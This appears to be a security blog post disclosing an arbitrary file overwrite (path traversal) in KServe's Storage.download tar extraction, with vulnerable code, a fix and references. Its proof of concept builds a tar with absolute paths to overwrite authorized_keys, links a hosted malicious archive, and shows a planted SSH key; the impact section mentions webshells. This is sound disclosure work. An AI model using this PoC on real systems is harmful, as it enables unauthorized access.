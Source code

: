 ```yaml
---
layout: post
title:  "Huntr: Arbitrary File Overwrite in Kserve Storage.download"
date:  2024-04-07 10:31:06 +0800
categories: file-overwrite
---
```


## Name

> Huntr: Arbitrary File Overwrite in Kserve Storage.download API

## Weakness

> CWE-22: Path Traversal

## Severity

> High (8.8)

## Version

> 0.12.1

## Description

The Kserve python SDK provide extra [`Storage`](https://github.com/kserve/kserve/tree/master/python/kserve#pip-install) module to download model from [`storage providers`](https://github.com/kserve/kserve/tree/master/python/kserve#kserve-python-server). The [`Storage.download`](https://github.com/kserve/kserve/blob/4841328f51df6b4a18cd451355d5ccf7d9dd72d0/python/kserve/kserve/storage/storage.py#L63) is called to download and extract the model to file system. However, the function does not adequately prevent malicious tar files from performing path traversal attacks. This can allow the downloading of malicious tar files that can overwrite any file. 

Using above python sdk, a victim may download model from internet. Fisrt, [`Storage.download`](https://github.com/kserve/kserve/blob/4841328f51df6b4a18cd451355d5ccf7d9dd72d0/python/kserve/kserve/storage/storage.py#L63) calls [`Storage._download_from_uri`](https://github.com/kserve/kserve/blob/4841328f51df6b4a18cd451355d5ccf7d9dd72d0/python/kserve/kserve/storage/storage.py#L695) to handle url download, and `Storage._download_from_uri` calls [`Storage._unpack_archive_file`](https://github.com/kserve/kserve/blob/4841328f51df6b4a18cd451355d5ccf7d9dd72d0/python/kserve/kserve/storage/storage.py#L710) to extract the tarball model file.

The [`Storage.download`](https://github.com/kserve/kserve/blob/4841328f51df6b4a18cd451355d5ccf7d9dd72d0/python/kserve/kserve/storage/storage.py#L63) function:

```
@staticmethod
def download(uri: str, out_dir: str = None) -> str:
    ...
    if uri.startswith(_GCS_PREFIX):
        Storage._download_gcs(uri, out_dir)
    elif uri.startswith(_S3_PREFIX):
        Storage._download_s3(uri, out_dir)
    elif uri.startswith(_HDFS_PREFIX) or uri.startswith(_WEBHDFS_PREFIX):
        Storage._download_hdfs(uri, out_dir)
    elif re.search(_AZURE_BLOB_RE, uri):
        Storage._download_azure_blob(uri, out_dir)
    elif re.search(_AZURE_FILE_RE, uri):
        Storage._download_azure_file_share(uri, out_dir)
    elif is_local:
        return Storage._download_local(uri, out_dir)
    elif re.search(_URI_RE, uri):
        return Storage._download_from_uri(uri, out_dir)
```

The [`_download_from_uri`](https://github.com/kserve/kserve/blob/4841328f51df6b4a18cd451355d5ccf7d9dd72d0/python/kserve/kserve/storage/storage.py#L624) function:

```
@staticmethod
def _download_from_uri(uri, out_dir=None):
    url = urlparse(uri)
    ...
    local_path = os.path.join(out_dir, filename)

    with requests.get(uri, stream=True, headers=headers) as response:
        ...
        if encoding == "gzip":
            stream = gzip.GzipFile(fileobj=response.raw)
            local_path = os.path.join(out_dir, f"{filename}.tar")
        else:
            stream = response.raw
        with open(local_path, "wb") as out:
            shutil.copyfileobj(stream, out)

    if mimetype in ["application/x-tar", "application/zip"]:
        Storage._unpack_archive_file(local_path, mimetype, out_dir)
```

The [`_unpack_archive_file`](https://github.com/kserve/kserve/blob/4841328f51df6b4a18cd451355d5ccf7d9dd72d0/python/kserve/kserve/storage/storage.py#L700) function extracts tarball without sanitization:

```
@staticmethod
def _unpack_archive_file(file_path, mimetype, target_dir=None):
    if not target_dir:
        target_dir = os.path.dirname(file_path)

    try:
        logger.info("Unpacking: %s", file_path)
        if mimetype == "application/x-tar":
            archive = tarfile.open(file_path, "r", encoding="utf-8")
        else:
            archive = zipfile.ZipFile(file_path, "r")
        archive.extractall(target_dir)
        archive.close()
```

The Python documentation explains us that tarfiles may have absolute filenames starting with / which could overwite files in system.

```
Warning: Never extract archives from untrusted sources without prior inspection. 
It is possible that files are created outside of path, 
e.g. members that have absolute filenames starting with "/" or filenames with two dots "..".
```

## Proof of Concept

An attacker can create a malicous tar file using following command:

```
tar --absolute-names -cvf hack.tar /home/kali/.ssh/authorized_keys
```

Then, the attacker will upload the `hack.tar` to public server. 

I have uploaded one malicous tar file to gitlab for testing: [https://gitlab.com/1159309551xcz/lfs/-/raw/main/hack.tar?ref_type=heads](https://gitlab.com/1159309551xcz/lfs/-/raw/main/hack.tar?ref_type=heads)

If anyone now downloads tar using `Storage.download` api, causing automatically extracting the malicous tar file and overwrite files silently.

```
from kserve.storage import Storage
Storage.download("https://gitlab.com/1159309551xcz/lfs/-/raw/main/hack.tar?ref_type=heads")
```
We can check the paylod `authorized_keys` has been overwriten.
```
$ cat /home/kali/.ssh/authorized_keys
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCov7XaSjvanAr+rs14Vz7Nn0KvVee57F5FYm8zKjmxYRb2s11r8L5L2IQPg4bMuvGcp+bouJfagdHQ/KoXD/l1IG3ZIggf67thPzGdH9gyShk2fpc1JSADkPT6WPeGAXSLh+0+InyzUqPe5oPA9zrvUDDYCKRG7NZ2A9++7hgs1DsNbJdxvYwy+8WMJAIrcfN+5QBxVHqUhUVFamyCoeu1DlalAnBSKwI61UMl0GkXN9DKMHgxSY0BMDT+AJr/F9Jwem5cTkVIr+RA9v901obfywdI/3TmPTwGwxiiZYhiWDWOaMNhyTXBWmIyBNN0usH9GtFtNPezcuUHBzsgHRcT js@dell
```

Tested on Google Colab: [https://colab.research.google.com/drive/1zwUsMUbTlDqGJdtLrhIo22HCkgzhQAes?usp=sharing](https://colab.research.google.com/drive/1zwUsMUbTlDqGJdtLrhIo22HCkgzhQAes?usp=sharing)

![poc](https://live.staticflickr.com/65535/53746993646_c00cf1cf03_o_d.png)


## Fix

```
@staticmethod
def _unpack_archive_file(file_path, mimetype, target_dir=None):
    # See: https://docs.python.org/3/library/tarfile.html#extraction-filters
    def extraction_filter(member, path):
        """Run tarfile.tar_filter, but raise the expected ValueError"""
        # This is only called if the current Python has tarfile filters
        try:
            return tarfile.tar_filter(member, path)
        except tarfile.FilterError as exc:
            raise ValueError(str(exc))

    if not target_dir:
        target_dir = os.path.dirname(file_path)

    try:
        logger.info("Unpacking: %s", file_path)
        if mimetype == "application/x-tar":
            archive = tarfile.open(file_path, "r", encoding="utf-8")
        else:
            archive = zipfile.ZipFile(file_path, "r")
        archive.extraction_filter = extraction_filter
        archive.extractall(target_dir)
        archive.close()

```

## Impact

This vulnerability can have severe consequences. This section will highlight some tangible impact.

### SSH Access

On servers that have SSH enabled, an attacker may be able to inject their own public RSA key into the authorized_keys file, leading to remote code execution.

### Web Servers

On servers hosting web servers, various vulnerabilities can be exploited. On PHP or JSP server, remote code execution may be possible via uploading a webshell. On other servers an HTML file can be uploaded to achieve Cross-site Scripting (XSS)


## Reference

[https://huntr.com/bounties/5d7e5752-085c-4e93-af0d-e25f05a27b89](https://huntr.com/bounties/5d7e5752-085c-4e93-af0d-e25f05a27b89)

## Occurrences

[https://github.com/kserve/kserve/blob/4841328f51df6b4a18cd451355d5ccf7d9dd72d0/python/kserve/kserve/storage/storage.py#L710](https://github.com/kserve/kserve/blob/4841328f51df6b4a18cd451355d5ccf7d9dd72d0/python/kserve/kserve/storage/storage.py#L710)
